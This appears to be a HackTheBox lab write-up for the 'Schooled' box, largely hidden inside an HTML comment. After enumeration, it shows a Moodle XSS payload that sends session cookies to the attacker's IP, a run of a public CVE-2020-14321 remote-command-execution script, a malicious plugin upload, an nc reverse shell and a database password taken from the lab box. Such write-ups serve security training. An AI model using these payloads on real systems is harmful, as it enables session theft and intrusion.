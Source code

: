 ```yaml
---
title: Schooled
author: siresire
date: 2023-02-15 10:14:00 +0800
categories: [Hackthebox,linux]
tags: [moodle]
render_with_liquid: false
---
```


# Moodle exploitation

## Information Gatheringx
### Nmap

>>> # Comming soon ................ 


<!-- ran nmap command and got 2 ports opened under 10000 pors 
```yaml
┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Schooled]
└─# nmap -vv -sV -A -oN nmap.scan 10.10.10.234 -T4 | grep open 
Discovered open port 22/tcp on 10.10.10.234
Discovered open port 80/tcp on 10.10.10.234
adjust_timeouts2: packet supposedly had rtt of -1208011 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -1208011 microseconds.  Ignoring time.
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
```

checking at port 80/tcp open, there was a standard HTML page with a domain name `schooled.htb`

![Alt text](/assets/img/htb/schooled/sc01.png)

### directory bruteforcing using feroxbuster

```yaml
──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Schooled]
└─# dirsearch -u  http://10.10.10.234 --exclude-status 403,404

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/sire/Documents/CTFs/HackTheBox/Schooled/reports/http_10.10.10.234/_24-03-06_11-10-26.txt

Target: http://10.10.10.234/

[11:10:26] Starting: 
[11:10:36] 301 -  231B  - /js  ->  http://10.10.10.234/js/
[11:11:00] 200 -   17KB - /about.html
[11:11:41] 200 -   11KB - /contact.html
[11:11:43] 301 -  232B  - /css  ->  http://10.10.10.234/css/
[11:11:54] 301 -  234B  - /fonts  ->  http://10.10.10.234/fonts/
[11:12:00] 301 -  235B  - /images  ->  http://10.10.10.234/images/
[11:12:00] 200 -    2KB - /images/
[11:12:04] 200 -  522B  - /js/

Task Completed

```

we had nothing important apart from the default HTML directories 

### subdomain bruteforcing using fuff

```yaml
┌──(root㉿kali)-[/home/…/HackTheBox/Schooled/schooled.htb/images]
└─# ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -u http://schooled.htb -H "HOST: FUZZ.schooled.htb" -fs 20750

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://schooled.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.schooled.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 20750
________________________________________________

[Status: 200, Size: 84, Words: 5, Lines: 2, Duration: 444ms]
    * FUZZ: moodle

[Status: 200, Size: 84, Words: 5, Lines: 2, Duration: 589ms]

```
found a subdomain `moodle` and in the page we had a default moodle login page,created an account

![Alt text](/assets/img/htb/schooled/sc02.png)


after creating an account we have the default home page of moodle wihtout plugins or customizations of the homepage

![Alt text](/assets/img/htb/schooled/sc03.png)

### Finding the moodle version

After digging around, I checked the source code of moodle becuse it's an opensource project and in the folder theme, there was ,`upgrade.txt`
checking on the moodle we had ,I found the version of the moodle

![Alt text](/assets/img/htb/schooled/sc04.png)

Chekcing at the vulnerability we had a lot of vulnerabilities [ref](https://moodle.org/security/index.php?o=3&p=14)


![Alt text](/assets/img/htb/schooled/sc05.png)

### Finding the vulnerability

When you enrole in students, we have an announcement that someone will be checking soemthing, this indicated that there is some automation to do some  type of interaction with indicats a XXS vulnerability

![Alt text](/assets/img/htb/schooled/sc06.png)


Updating the MoodleNet profile with a h1 and b html tags we got had this 

![Alt text](/assets/img/htb/schooled/sc07.png)

So I tried to put a script in the box 

```javascript
<script scr = "http://10.10.16.27/unknown.js" > </script>
```
So the site hunged

![Alt text](/assets/img/htb/schooled/sc08.png)

and on the side we had a response

```yaml
┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Schooled]
└─# nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.16.27] from (UNKNOWN) [10.10.16.27] 53876
GET /exploit.js HTTP/1.1
Host: 10.10.16.27
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://moodle.schooled.htb/
```
so I tried to steal the cookie from server using 

```javascript
document.write('<img src="http://10.10.16.27/?'+document.cookie+'">');
```

and there we had it

```yaml
──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Schooled]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.27 - - [06/Mar/2024 12:37:17] "GET /exploit.js HTTP/1.1" 200 -
10.10.16.27 - - [06/Mar/2024 12:37:17] "GET /?MoodleSession=en7n3jc4r1o5h3ogsnn94nan2a HTTP/1.1" 200 -
10.10.16.27 - - [06/Mar/2024 12:37:41] "GET /exploit.js HTTP/1.1" 200 -
10.10.10.234 - - [06/Mar/2024 12:37:52] "GET /exploit.js HTTP/1.1" 200 -
10.10.10.234 - - [06/Mar/2024 12:37:53] "GET /?MoodleSession=t4r6egj8s1f9fjqt6u1kkegcs9 HTTP/1.1" 200 -
10.10.10.234 - - [06/Mar/2024 12:37:54] "GET /?MoodleSession=t4r6egj8s1f9fjqt6u1kkegcs9 HTTP/1.1" 200 -
10.10.10.234 - - [06/Mar/2024 12:39:59] "GET /exploit.js HTTP/1.1" 304 -
10.10.10.234 - - [06/Mar/2024 12:40:00] "GET /?MoodleSession=4uapqna4fug3u99f5gnpmk08b9 HTTP/1.1" 200 -

```
and we were Manuel Phillips

![Alt text](/assets/img/htb/schooled/sc10.png)

After being a teacher , there is a vulnerability that allow teachers to privilege escalation from teacher role into manager role by Course enrolments `CVE-2020-14321`

Using the scrip I found online [ref]() , I was able to execute commands

```yaml
┌──(root㉿kali)-[/home/…/CTFs/HackTheBox/Schooled/CVE-2020-14321]
└─# python CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle --cookie 4uapqna4fug3u99f5gnpmk08b9
 __     __     __   __  __   __              __  __     
/  \  /|_  __   _) /  \  _) /  \ __  /| |__|  _)  _) /| 
\__ \/ |__     /__ \__/ /__ \__/      |    | __) /__  | • by lanz

Moodle 3.9 - Remote Command Execution (Authenticated as teacher)
Course enrolments allowed privilege escalation from teacher role into manager role to RCE
                                                        
[+] Login on site: MoodleSession:4uapqna4fug3u99f5gnpmk08b9 ✓
[+] Updating roles to move on manager accout: ✓
[+] Updating rol manager to enable install plugins: ✓
[+] Uploading malicious .zip file: ✓
[+] Executing whoami: ✓

www

[+] Keep breaking ev3rYthiNg!!
```

### Exploiting the vulnerabilities manually:

in the default homepage html ,only LIANNE is the manager

![Alt text](/assets/img/htb/schooled/sc11.png)


So we go participants and try to enrole her as a student in my course as a teacher

![Alt text](/assets/img/htb/schooled/sc12.png)

as we sent the request we intercept it with burp and modify some variables
1. userlist
2. roletoassigne 'of with roletoassigne 1 is the manager'


![Alt text](/assets/img/htb/schooled/sc13.png)

After modifying the traffic we forward it and we get manager role assignment 

![Alt text](/assets/img/htb/schooled/sc14.png)

When you now visit LIANNE , you can log in as administrator

![Alt text](/assets/img/htb/schooled/sc15.png)

once in the site administration, when you go to plugins you don't have the ability to install plugins

![Alt text](/assets/img/htb/schooled/sc16.png)

To enable the this option , go to Users , Permission.In her go to defined roles, manager, click manager,click edit  

![Alt text](/assets/img/htb/schooled/sc17.png)

When you click save , intercept the traffic and change the `return` value to this payload [reference](https://github.com/HoangKien1020/CVE-2020-14321?tab=readme-ov-file) 

![Alt text](/assets/img/htb/schooled/sc18.png)


we get an option to install plugin. This exploit is called `mass assignment vulnerability` 
![Alt text](/assets/img/htb/schooled/sc19.png)

The installed plugin has to be a zip file with some file structure fomalities

![Alt text](/assets/img/htb/schooled/sc20.png)

```yaml
┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Schooled]
└─# ls -R Moodle_RCE
Moodle_RCE:
rce  rce.zip  README.md

Moodle_RCE/rce:
lang  version.php

Moodle_RCE/rce/lang:
en

Moodle_RCE/rce/lang/en:
block_rce.php

┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Schooled]
└─# cat block_rce.php     
cat: block_rce.php: No such file or directory
                                                                                                 
┌──(root㉿kali)-[/home/…/Documents/CTFs/HackTheBox/Schooled]

```
After uploading the plugin and listening to nc events we had  shell

```yaml
┌──(root㉿kali)-[/home/…/Moodle_RCE/rce/lang/en]
└─# nc -nlvp 1234  
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.234] 50153
FreeBSD Schooled 13.0-BETA3 FreeBSD 13.0-BETA3 #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021     root@releng1.nyi.freebsd.org:/usr/obj/usr/src/amd64.amd64/sys/GENERIC  amd64
 7:18AM  up  1:11, 0 users, load averages: 0.99, 0.68, 0.52
USER       TTY      FROM    LOGIN@  IDLE WHAT
uid=80(www) gid=80(www) groups=80(www)
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)

```

In the box, while enumerating, I found password for the database

```yaml
╔══════════╣ Analyzing Moodle Files (limit 70)
-rwxr-xr-x  1 www  www  758 Dec 19  2020 /usr/local/www/apache24/data/moodle/config.php
$CFG->dbtype    = 'mysqli';
$CFG->dbhost    = 'localhost';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
  'dbport' => 3306,

``` -->
